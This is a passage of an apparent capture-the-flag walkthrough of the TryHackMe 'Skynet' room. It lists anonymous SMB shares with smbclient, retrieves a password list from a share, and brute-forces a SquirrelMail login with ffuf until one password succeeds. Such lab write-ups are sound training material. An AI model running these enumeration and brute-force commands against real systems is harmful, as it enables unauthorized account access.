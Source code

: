 ```
smbclient -L \\\\10.10.219.151\\
```


![img](/assets/images/tryhackme/skynet/3.png)

Two interesting shares. **anonymous** and **milesdyson**

```
smbclient \\\\10.10.219.151\\anonymous
```


![img](/assets/images/tryhackme/skynet/4.png)

Grab **attention.txt** with `get attention.txt`

```
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

**logs** is a directory with three files, only 1 has data


![img](/assets/images/tryhackme/skynet/5.png)

Grab **log1.txt** with `get log1.txt`

```
cyborg007haloterminator
terminator22596
terminator219
.
.
79terminator6
1996terminator
```

Passwords maybe? Let's go back to `/squirrelmail` and see if any of these work for. We saw that there was a `milesdyson` share, so maybe that's a username? Let's use **FFuF** again, but this time to brute this login form.

Capture the login request in burp to build the command.


![img](/assets/images/tryhackme/skynet/6.png)

```
ffuf -u http://10.10.219.151/squirrelmail/src/redirect.php -d "login_username=milesdyson&secretkey=FUZZ&js_autodetect_results=1&just_logged_in=1" -H "Content-type: application/x-www-form-urlencoded" -w log1.txt
```

```
cyborg007haloterminator [Status: 302, Size: 0, Words: 1, Lines: 1]
```
